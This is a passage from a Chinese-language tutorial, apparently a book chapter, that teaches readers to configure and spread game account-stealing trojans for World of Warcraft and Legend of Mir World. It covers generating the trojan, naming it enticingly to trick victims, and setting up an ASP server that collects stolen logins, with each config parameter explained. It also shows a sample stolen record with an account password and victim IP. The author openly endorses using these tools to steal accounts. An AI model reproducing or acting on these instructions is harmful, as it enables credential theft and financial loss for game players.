

下面我来教大家怎么配置大陆魔兽世界木马2.5，启动后，它的界面如图2.4所示。

这个木马是利用邮箱发送信件，木马默认的 SMTP 服务器是 163 的邮件服务器，我们就使用网易的邮箱收信。首先我们准备两个邮箱，一个用来发送信件，另一个用来收取信件，不建议只使用一个邮箱。我们需要填写发信邮箱的名字和它的用户名及密码，收件邮箱只填写邮箱名就可以了，发信标题我们可以随便填写。以上各项都填写完毕后，我们点击生成按钮，在另存为的对话框内给我们的木马起个带有诱惑性的名字，保存后就能生成服务端了（图2.5）。

以上介绍的两款魔兽盗号木马可都是火力强劲哟，推荐各位使用！

### 2.2 传奇世界 / 热血传奇

#### 2.2.1 传奇世界生成器

传奇世界虽然现在算不上主流游戏了，但是盛大宣布免费运营后上线人数增加了不少，热血传奇已经全面禁止外挂了，估计传奇世界也不远了。到时候人物和装备会更值钱的，所以嘛，一款好的传奇世界木马就不可缺少了。我下面给大家介绍的这个“传奇世界生成器”网上可是很少见的，用百度搜索才找到三个网站提供，当然也不可能是免费提供的，而且有的网站竟然还标价到60元，还说是特价（图2.6）。所以说各位朋友有福了，我这可是白送给广大读者的。



图2.6

首先我们打开压缩包解压到硬盘上，文件夹会有三个主要程序：传奇世界生成器、传世收信程序和专用数据浏览器。

##### 一、传奇世界生成器

这个是生成传奇世界木马的程序，我们先打开它（图2.7）。从图2.7中可以看出，需要我们填写的就一个地方——ASP空间地址。这个地址是我们存放传世收信程序的空间地址，例如：http://www.myhome.com/changqishijie/，这个地址不需要像阿拉QQ大盗那样加上收信程序文件。点击“生成木马”按钮后就会在文件下生成一个“木马文件.exe”文件，我们可以随便改名，像激情小游戏、传奇外挂等一些带有诱惑性的名字。这个虽然是传奇世界木马的主程序，但是它却是最好配置的，后面两个程序的配置与使用可就有难度了，大家可要仔细听讲了。



图2.7

##### 二、传世收信程序

讲到了收信程序，当然要先看看这款木马的收信格式了，看看它都记录了什么信息。收信格式如下：

```text
服务器：12区 —— 12-冰雨，[COCAABB4]
账号密码：wubin3333/1984621
游戏人物：宝贝王[武士：33] / 冰法师[法师：46]
游戏时间：剩余游戏时间：秒卡余额55小时
人物装备：金鹏宝甲（男），魔法权杖，荣誉勋章44号，虎齿项链，法神头盔，法神手镯，神秘腰带，法神戒指，法神戒指，魔龙法靴，魔龙腰带
其  他：[操作系统：XP][所在地图：热砂荒漠][元宝数量：71][222.174.12.182]
[2006-2-28 22:56:48]
```

怎么样，信息够详细吧，这个木马的记录能力厉害吧。

打开传世收信程序压缩包，里面有一个“传奇模板”的文件夹，这里面就是ASP收信程序。我们首先找一个支持ASP的空间，然后把那些收信程序上传上去，最后更改配置（这一步很重要）。收信程序的配置信息都保存在 CONFIG.ASP 文件里，我们主要就是修改这个文件。先来打开它，如图2.8。



从图2.8中可以看出我们能修改的地方有五处，下面我来分别说明。

- 1. `DatabaseName="HSa8BAj\#SECDAT6.mdb"`

从字面意思就可以看出这里是设置数据库的名字，我们不要图省事，像这种地方一定要修改，不然就有可能出现被别人利用默认数据库名下载数据库。我们经常能看到一些数据库的名字中都有个“#”，如果带有这个符号的路径直接放到浏览器上下载就会提示错误，这是因为“#”在 ASCII 中相当于 00，也就是终止的意思，所以会不能下载。不过我们只要把这个“#”换成“%23”，浏览器就会把“%23”自动转换成“#”就可以下载了，比如：http://www.myhome.com/changqishijie/H$a8BAj/%23SECDAT6.mdb。我们在修改数据库路径时，可以改变数据库的文件夹或数据库的名字，不放心的话就都修改好了。名字其实不用起很长还有一大堆符号，只要换个名字就很少有人能猜到。我在这里就把数据库的路径修改成“zygmdb\juny6.mdb”，然后再把引号里的内容替换掉配置文件里数据库的路径。

- 2. `DataDir="SECViewDir"`

这个参数是设置看信的地址，这个地址也就是存放看信的 ASP 程序的文件夹，我们在使用“专用数据库浏览器”时填写的看信地址，例如：http://www.myhome.com/changqishijie/SECViewDir/。这里我也建议修改文件夹的名称，并把配置文件相应的地方修改。例如：`DataDir="zygkanxin"`。

- 3. `SecIP="_"`

这个参数的作用是限定允许看信的安全 IP，就是规定哪些 IP 可以利用专用数据库浏览器查看信件。这个参数可以有效地加大安全力度，如果你是固定 IP，那么只要把你的 IP 填写上，就能限制只有你可以查看信件。即使别人知道你看信的管理员密码，也不能查看信件，因为它的 IP 被排除在外了。在设置多个 IP 时，每个 IP 中间用“;”隔开。现在好多人都用 ADSL 上网，这样每次上线 IP 都会发生变化，这种情况也能做到限制 IP。我们上网的 IP 虽然是不固定的，但还是有一定的规律，比如我用的是北京网通 ADSL 上网，我的 IP 就固定在几个 IP 段内，像 61.50、61.149、221.217 等。IP 资源是有限的，不可能让某个服务商随便用，就会给它分几个 IP 段。我们可以用心观察一下每次上线的 IP，就会发现这个规律。像我就是这样设置这个参数的：`SecIP="61.50.;61.149.;221.217.;222.129."`，每个 IP 段也用“;”隔开。不过这个参数也不是非要修改，可以默认，但就是不会限制允许看信的安全 IP 了，这个根据个人喜好。

- 4. `LockServer="0"`

这个参数是把信箱是否加锁，默认为“0”时不上锁，不影响正常收信。把参数设置为“1”时为加锁，此时任何人将无法查看信箱数据。这个设置在发现有异常情况时很有用。

- 5. `KickOutIP="0,0,0,0;192,168"`

这个参数起屏蔽 IP 的作用。当发现某 IP 不停向信箱发送垃圾数据或非法登录时，可将此 IP 屏蔽，被屏蔽的 IP 不允许提交任何数据及登录。它的设置同允许 IP 设置相同，默认值为：`KickOutIP="0,0,0,0"`。

配置文件的设置就介绍完了，大家先在本地设置完成后再上传到我们的个人空间里，把木马发出去后就可以等着收信了。

##### 三、专用数据浏览器

这是我第一次看见盗号木马还配了个“专用数据浏览器”，作者把数据库加密了，让别人即使拿到数据库也没用，只有使用专用数据浏览器再加上管理员密码才能浏览，木马作者真是“用心良苦”呀，就冲这个技术也值那六十块大洋。

我们先打开程序，看到了一个还算正规的界面（图2.9）。





我们在地址栏中输入看信地址（配置文件中讲到过），用户名和密码默认都是 admin，填好后点击“登录”，这样我们就连接了数据库（图2.10）。

从图2.10中我们看到已经连接上了数据库，由于还没有数据，所以大家看到的是一片空白。在左下角的信息区内有详细的运行记录，图中标示的框内就是请求数据的记录。

从功能区逐项开始介绍。

### 1. 浏览 & 刷新数据

在登录进来时就会显示数据，再点击它就会刷新数据。

###### 2. 查看安全策略

界面如图2.11，这里记录了用户登录的具体时间、什么账户和 IP 地址。从这里可以看出在我们登录前有没有非法登录者，遇到陌生的账户时可以在“操作员管理”处删除，再就是把它的 IP 禁止了，让它再也不能连接。建议每次看完数据后都要仔细查看一下这里。



图2.11

###### 3. 操作员管理

界面如图2.12，图中已经有两个管理员了，如果你想增加管理员的话，在下面的增加操作员的框内填上用户名和密码，然后点击确认。按 F5 刷新后就能看到上面已经多了一个管理员。从图2.12左下角的消息区内可以看到每次的操作记录，那里就有我添加的第二个管理员的记录。



图2.12

###### 4. 清空数据库

当垃圾数据太多时可以使用到这个功能，但我们点击“清空数据库”时会弹出一个询问对话框（图2.13）。我们看到了对话框提示：“此操作非常危险”，你真的要清空的话就点击“是”。这时又弹出一个对话框（图2.14），请你再次确认，并且提示：数据全部清空之后将无法恢复！作者想的还挺周到，增加了二次确认，以免误操作。选择“是”就会清空所有数据，但不包括我们做的设置和添加的管理员，只是传奇账号数据。



图2.13





###### 5. 特殊颜色设置

界面如图2.15，可以把你设定的文字用特别的颜色显示出来，以和普通文字区别。比如我想用紫色显示“力量戒指”这四个字，首先在特显文字的框内填写：“力量戒指”，再点选颜色中的紫色，还可以选择粗体显示，最后点击“添加”按钮，就完成添加了（图2.16）。把你想添加的文字都添加完后点击确认就可以了。



这个盗号木马的使用就是这些了，最后希望传世账号像下雪一样飘进大家的空间中。

#### 2.2.2 海盗传奇木马

